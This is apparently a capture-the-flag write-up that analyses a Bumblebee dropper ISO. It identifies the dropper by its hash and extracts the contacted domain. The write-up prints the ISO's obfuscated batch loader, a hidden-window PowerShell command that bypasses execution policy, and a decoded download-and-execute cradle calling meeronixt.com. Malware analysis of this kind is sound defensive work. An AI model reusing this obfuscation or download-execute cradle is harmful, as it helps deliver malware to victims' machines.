


# Transformers #2


## Presentation

Can you identify to wich malware dropper the iso file is related ? Beside, it looks like the dropper is contacting a remote ressources, can you extract the domain name the dropper tries to reach ?


TLP:GREEN/PAP:AMBER

Format : **HERO{Dropper Name;domain}**
Example : HERO{Dropper;abcd.ef}

## Solve


To find the name of the famous dropper,you can search by:

* the name of the file ( bad idea but it's a CTF so soon or later someone would have push the file with the name I gave on any sandbox/virustotal )

* the hash of the .iso, or the .lnk (recommended way )

```
$ sha256sum monthly-report-S3-2024.iso 
b824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860  monthly-report-S3-2024.iso
```

​	

* on google 



First page name in the link

* Search the hash in malware sample public database like malware bazaar

https://bazaar.abuse.ch/browse.php?search=sha256%3Ab824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860



**Dropper name** => Bumblebee

Then, to understand which domain is contacted, you can proceed either staticaly, either dynamicaly ( in a sandbox!!! )

Static analysis :


```
$ strings monthly-report-S3-2024.iso
[some garbage]
...
@echo off
:drzclsxvupw
set nqudlc=q
:jgvinpsutyw
set fiezbj=a
:rxqbgdzfitm
set msonvq=y
:nrsowealbgt
set dhltmr=u
:kmrdcueqphz
set sgcuek=m
:oxwnaylmrbe
set vzbtmg=z
:zkcdvpsuyla
set fysdib=o
:xfhmgkeciqd
set wvopta=j
:nzywfxjsarm
set skuweh=s
:udpthcvznyf
set dayvow=r
:ksxpbguolhi
set qtlekd=w
:ezkafqrjmsg
set ynwiok=f
:tlubafkrcjq
set fblvmd=b
:miydogxwuze
set nryihu=p
:shbclnfxmug
set msotjd=v
:vrkdhtwycse
set beicuz=d
:mlriuxhvktd
set vmefxs=e
:gwflzjxyrke
set yplurb=c
:iaqcolgbmjx
set koxzju=n
:uwfesitardk
set ncbdqi=t
:yoclxjvthns
set wkcnoz=i
:bmuzlkxjgdo
set qawudo=l
:cihavwbtjxs
set tbilrv=h
:dkyqpfrguew
set wgtpdy=k
:jdoxmbsckre
set uhafms=x
:itjnoalbxfs
set ojuvcf=g
:hmdvrkgajxo
:X%yplurb%M%fblvmd%RDHB%nryihu%Z%beicuz%%nryihu%UW%qtlekd%WVA%msonvq%%wvopta%%tbilrv%I
%nryihu%%fysdib%%qtlekd%%vmefxs%%dayvow%%skuweh%%tbilrv%%vmefxs%%qawudo%%qawudo% -%qtlekd% %tbilrv%%wkcnoz%%beicuz%%beicuz%%vmefxs%%koxzju% -%koxzju%%fysdib%%nryihu% -%vmefxs%%nryihu% %fblvmd%%msonvq%%nryihu%%fiezbj%%skuweh%%skuweh% -%vmefxs%%koxzju%%yplurb% SQBFAF%ojuvcf%AIAA%fysdib%AE4AZQB3AC0AT%qtlekd%B%wkcnoz%AG%fysdib%AZQB%wvopta%AHQAIABOAGUA%beicuz%AA%dhltmr%AF%yplurb%AZQB%wkcnoz%AGMA%fblvmd%AB%nryihu%AGUA%fblvmd%%ojuvcf%B0AC%wgtpdy%AL%ojuvcf%B%wgtpdy%AG8A%beicuz%%qtlekd%B%dhltmr%AG%qtlekd%A%fblvmd%%qtlekd%B%tbilrv%AGQA%yplurb%%qtlekd%B0AHIA%fiezbj%QB%dhltmr%AG%yplurb%AKAA%wkcnoz%AG%ojuvcf%A%beicuz%AB0AHAAO%ojuvcf%A%msotjd%AC8A%fblvmd%QB%qawudo%AGUA%yplurb%%ojuvcf%B%msotjd%AG4A%fiezbj%QB4AHQAL%ojuvcf%B%wvopta%AG8A%fblvmd%QA%msotjd%AG%yplurb%AYQB0AGUAI%ojuvcf%A%nryihu%AA==
:EC%nryihu%%vzbtmg%%dhltmr%B%fysdib%V
...
```

Desofuscation:

```
powershell -w hidden -nop -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbQBlAGUAcgBvAG4AaQB4AHQALgBjAG8AbQAvAGcAYQB0AGUAIgApAA==
```

```
$ echo -n "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbQBlAGUAcgBvAG4AaQB4AHQALgBjAG8AbQAvAGcAYQB0AGUAIgApAA==" | base64 -d
IEX (New-Object Net.Webclient).downloadstring("http://meeronixt.com/gate")
```

Dynamic analysis: 

public report :  (https://any.run/report/b824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860/6a6ae9e1-f1ff-46dd-b6ef-2ebe849fea9e) 


**Remote ressources**  => meeronixt.com


flag : HERO{Bumblebee;meeronixt.com}


## Ressources 

* https://www.misp-project.org/taxonomies.html#_pap
